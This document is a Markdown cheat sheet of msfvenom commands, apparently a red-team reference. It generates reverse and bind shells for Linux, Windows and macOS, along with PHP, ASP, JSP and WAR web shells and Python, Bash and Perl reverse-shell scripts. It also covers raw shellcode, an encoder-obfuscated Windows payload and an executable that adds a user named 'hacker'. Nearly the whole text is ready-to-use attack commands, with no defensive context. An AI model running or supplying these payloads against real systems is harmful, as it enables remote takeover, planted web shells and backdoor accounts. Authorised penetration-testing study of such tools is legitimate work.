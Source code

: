 # msfvenom Reverse Shells

## **List payloads**

* msfvenom -l

## **Binaries Payloads**

**Linux Meterpreter Reverse Shell**

* msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; shell.elf

**Linux Bind Meterpreter Shell**

* msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; bind.elf

**Linux Bind Shell**

* msfvenom -p generic/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; term.elf

**Windows Meterpreter Reverse TCP Shell**

* msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Reverse TCP Shell**

* msfvenom -p windows/shell/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Encoded Meterpreter Windows Reverse Shell**

* msfvenom -p windows/meterpreter/reverse\_tcp -e shikata\_ga\_nai -i 3 -f exe &gt; encoded.exe

**Mac Reverse Shell**

* msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; shell.macho

**Mac Bind Shell**

* msfvenom -p osx/x86/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; bind.macho

## **Web Payloads**

**PHP Meterpreter Reverse TCP**

* msfvenom -p php/meterpreter\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.php
* cat shell.php \| pbcopy && echo ‘&lt;?php ‘ \| tr -d ‘\n’ &gt; shell.php && pbpaste &gt;&gt; shell.php

**ASP Meterpreter Reverse TCP**

* msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f asp &gt; shell.asp

**JSP Java Meterpreter Reverse TCP**

* msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.jsp

**WAR**

* msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f war &gt; shell.war

## **Scripting Payloads**

  
**Python Reverse Shell**

* msfvenom -p cmd/unix/reverse\_python LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.py

**Bash Unix Reverse Shell**

* msfvenom -p cmd/unix/reverse\_bash LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.sh

**Perl Unix Reverse shell**

* msfvenom -p cmd/unix/reverse\_perl LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.pl

## **Shellcode**

**Windows Meterpreter Reverse TCP Shellcode**

* msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Linux Meterpreter Reverse TCP Shellcode**

* msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Mac Reverse TCP Shellcode**

* msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Create User**

* msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe &gt; adduser.exe

Ref: [https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

